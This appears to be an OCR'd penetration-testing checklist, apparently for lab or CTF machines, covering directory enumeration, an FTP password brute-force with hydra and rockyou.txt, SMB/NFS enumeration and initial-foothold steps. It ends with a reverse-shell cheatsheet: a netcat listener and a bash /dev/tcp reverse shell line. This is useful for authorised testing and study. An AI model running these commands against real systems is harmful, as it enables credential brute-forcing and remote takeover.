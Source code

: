 ### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

### Reverse Shell Cheatsheet  
```bash
nc -lvnp <PORT>
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
